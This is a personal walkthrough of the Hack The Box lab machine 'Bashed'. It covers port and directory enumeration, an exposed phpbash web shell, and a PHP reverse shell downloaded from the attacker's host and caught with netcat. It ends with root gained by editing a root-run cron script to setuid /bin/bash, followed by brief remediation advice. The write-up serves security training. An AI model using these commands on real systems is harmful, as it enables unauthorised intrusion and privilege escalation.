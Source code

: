 # Bashed

```
kali@kali:~/htb/Bashed$ sudo nmap -sV -sC 10.129.88.188
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-28 10:04 EST
Nmap scan report for 10.129.88.188
Host is up (0.027s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.31 seconds
```

Ok, the webpage leads to a blog about PHPbashing. Nothing really to click, except a blog post.

I decide to run wfuzz:

```
kali@kali:~/htb/Bashed$ sudo wfuzz -c -L --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.129.88.188/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.0.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.129.88.188/FUZZ
Total requests: 220560

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                            
===================================================================

000000001:   200        161 L    397 W    7743 Ch     "# directory-list-2.3-medium.txt"                                  
000000003:   200        161 L    397 W    7743 Ch     "# Copyright 2007 James Fisher"                                    
000000007:   200        161 L    397 W    7743 Ch     "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"  
000000014:   200        161 L    397 W    7743 Ch     "http://10.129.88.188/"                                            
000000016:   200        19 L     88 W     1566 Ch     "images"                                                           
000000012:   200        161 L    397 W    7743 Ch     "# on atleast 2 different hosts"                                   
000000013:   200        161 L    397 W    7743 Ch     "#"                                                                
000000011:   200        161 L    397 W    7743 Ch     "# Priority ordered case sensative list, where entries were found"
000000010:   200        161 L    397 W    7743 Ch     "#"                                                                
000000008:   200        161 L    397 W    7743 Ch     "# or send a letter to Creative Commons, 171 Second Street,"       
000000005:   200        161 L    397 W    7743 Ch     "# This work is licensed under the Creative Commons"               
000000006:   200        161 L    397 W    7743 Ch     "# Attribution-Share Alike 3.0 License. To view a copy of this"    
000000002:   200        161 L    397 W    7743 Ch     "#"                                                                
000000009:   200        161 L    397 W    7743 Ch     "# Suite 300, San Francisco, California, 94105, USA."              
000000004:   200        161 L    397 W    7743 Ch     "#"                                                                
000000164:   200        1 L      1 W      14 Ch       "uploads"                                                          
000000338:   200        16 L     59 W     941 Ch      "php"                                                              
000000550:   200        20 L     96 W     1760 Ch     "css"                                                              
000000834:   200        17 L     69 W     1150 Ch     "dev"                                                              
000000953:   200        26 L     165 W    3167 Ch     "js"                                                               
000002771:   200        21 L     111 W    2097 Ch     "fonts"                                                            
000045240:   200        161 L    397 W    7743 Ch     "http://10.129.88.188/"

```

/uploads/ is empty, but /php/ contains a directory that shows sendMail.php

Which is completely empty. I try curling, burpsuite. But it is completely empty. So I decide to check out the PHPbash talked about in the blog.

```
phpbash helps a lot with pentesting. I have tested it on multiple different servers and it was very useful. I actually developed it on this exact server!
```

So phpbash is a pentesting tool, developed on this exact server. Well. There is a /dev/ directory here.

![](images/1.png)

So I try out phpbash.php:

```
www-data@bashed:/var/www/html/dev# ls
phpbash.min.php
phpbash.php
www-data@bashed:/var/www/html/dev# whoami
www-data
www-data@bashed:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

I’ll create a reverse shell, as I know more about the capabilities of the tty than phpbash. I try python, netcat, bash. But at the end I just decide to upload a php reverse shell.

```
kali@kali:~/htb/Bashed$ cp /usr/share/webshells/php/php-reverse-shell.php .
kali@kali:~/htb/Bashed$ sudo vim php-reverse-shell.php
kali@kali:~/htb/Bashed$ sudo python -m SimpleHTTPServer 8000

```

And then on the website:

```
www-data@bashed:/tmp# wget 10.10.14.52:8000/php-reverse-shell.php

--2021-01-28 13:52:51-- http://10.10.14.52:8000/php-reverse-shell.php
Connecting to 10.10.14.52:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5493 (5.4K) [application/octet-stream]
Saving to: 'php-reverse-shell.php'

0K ..... 100% 445M=0s

2021-01-28 13:52:51 (445 MB/s) - 'php-reverse-shell.php' saved [5493/5493]
www-data@bashed:/tmp# php php-reverse-shell.php
```

And of course on the listener:

```
kali@kali:~/htb/Bashed$ sudo nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.88.188 34008
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 13:53:03 up  6:49,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

I am slightly sad. I’ve had the ip 10.10.14.21 for well over a week. And now suddenly I am 10.10.14.52. And I’ve gotten so used to 21. Anyways. I improve the shell. Read more here: https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/ 


So I’m gonna try and log in as scriptmanager, and see what permissions that account has.

```
www-data@bashed:/$ sudo -u scriptmanager bash
scriptmanager@bashed:/$
scriptmanager@bashed:/$ whoami
scriptmanager
scriptmanager@bashed:/$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
scriptmanager@bashed:/scripts$ ls
test.py  test.txt
```
Aha, so as scriptmanager we can now enter the scripts directory. I also checked /home/scriptmanager/.bash_history to see if there was anything good, but it was empty. 

Let’s look at this script:

```
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!scriptmanager@bashed:/scripts$ cat test.txt ; echo
testing 123!
scriptmanager@bashed:/scripts$
```

So it simply opens a file and writes to it. Let’s check the permissions:

```
scriptmanager@bashed:/scripts$ ls -la 
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jan 28 14:14 test.txt
```

So the script is owned by scriptmanager, but the file is owned by root. We can also see the time discrepancy between the python file and the text file. 

The text file is actually last edited right now. So the python script is probably being ran constantly.

I edit the file with nano. I normally use vim, but it’s not installed. BTW. If the target machine has vim, you may be able to spawn a root shell with that, look more here: https://gtfobins.github.io/gtfobins/vim/ 

```
import os  

os.system("chmod 4755 /bin/bash")
```

This simply changes the permissions of /bin/bash. 4755 means that everyone can execute it, more here: https://chmodcommand.com/chmod-4755/ 

ctrl+X to exit nano, Y to write, and enter to have the same name.

```
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
```

-p means that bash will run in privileged mode.


## Comparing myself to the official writeup:

The official writeup uses the same methods, except it runs another reverse shell from the python program instead of changing the bash permissions. 


## How to stop this exploit:

The web user should not be able to access sripts, especially when you give an end-user access to that user by default with the phpbash dev site. The automatic script execution could also have an additional check. Maybe do a md5sum of the program, and only run it if the md5sum matches.


